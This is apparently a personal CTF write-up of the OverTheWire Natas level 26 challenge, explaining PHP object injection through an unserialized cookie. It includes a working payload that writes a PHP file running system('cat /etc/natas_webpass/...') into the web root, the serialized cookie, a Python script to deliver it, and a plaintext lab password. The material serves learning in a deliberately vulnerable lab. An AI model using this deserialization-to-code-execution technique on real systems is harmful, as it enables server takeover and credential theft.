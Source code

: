 
2024-07-26 12:51

Source: #natas #web #py 

Tags: [[PHP]] 

## Natas26

also known as - PHP object [[deserialization]]

PHP object injection through the serialized and unserialized PHP functions can be super dangerous especially **if there's complete user control over what data is being serialized**

PHP code from the source shows that it is using object oriented programming as it has a class called `logger`

`__construct()` and `__destruct()` are defined in `logger` 
these double underscore functions are PHP magic object functions so they are necessary and built-in for PHP.

the code further draws from user given x and y coordinates, it does this via a drawing cookie 
source code looks like - 
```
if (array_key_exists("drawing", $_COOKIE)){
    $drawing=unserialize(base64_decode($_COOKIE["drawing"]));  
}
```
`unserializing` data that we have complete control over is a huge vulnerability 
it's using our session ID as the actual location that it's loading the image file from

Since the website is using the session id to name `png` files we can try injecting code but it doesn't work 
on returning the cookies after drawing something we see a drawing cookie along with the session cookie. The drawing cookie is [[base64]] encoded + Url encoded in order to get around this we use - 
```python
import base64
from urllib.parse import unquote
.
.
base64.b64decode(unquote(session.cookies['drawing'])))
```
in the output we get PHP serialized data

this class logger we can actually change what these variables are and what they do, and if we give that to the drawing cookie and the PHP application will like unserialize that data for us, it'll load up this logger and we'll try and write that message and we may be able to take advantage of what we actually write to a file and we can essentially get some code on the server and maybe run our own PHP code because we are writing to a file with this.

create a php file and copy the snippet of `logger `class 
```php
<?php
class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;
        
        function __construct($file){
            // initialise variables
            $this->initMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>";
            $this->exitMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>";
            $this->logFile = "img/winner.php";
//above we create a custom initalise message and log it to file we can access later
// we write to img because it is trying to load out of that image directory 

			// write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->initMsg);
            fclose($fd);
        }
        
        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }
        
        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }
    }
$object = new Logger();
echo(base64_encode(serialize($object)));
?>
```
- make sure you run this code with php version 7 only as it only runs on that version
in order to run php directly on kali  - 
```
php7.0 file_name.php 2>/dev/null
```
the output will be a base64 string 
we set that b64 string to our drawing cookie 

```python
import requests
username = 'natas26'
password = 'cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE'

url = 'http://natas26.natas.labs.overthewire.org/'
session = requests.Session()
response = session.get(url,auth=(username,password))

response.cookies['PHPSESSID']

session.cookies['drawing'] = 'Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNDoiaW1nL3dpbm5lci5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7czo1MDoiPD9waHAgc3lzdGVtKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo1MDoiPD9waHAgc3lzdGVtKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO30='

response = session.get(url+'?x1=0&y1=0&x2=55&y2=500',auth=(username,password))
print(response.text)
```

after doing this we encounter a fatal error, we know that this means that our code successfully executed we know that we got that object to unserialized

we then change the `get` request to fetch to winner.php file that we manipulated 
```
response = session.get(url+'img/winner.php',auth=(username,password))
```
### References
https://www.youtube.com/watch?v=IgxhtJQL-gY
php magic methods - https://www.php.net/manual/en/language.oop5.magic.php
php version 7.0.33 - https://onlinephp.io/
php object injection  - https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection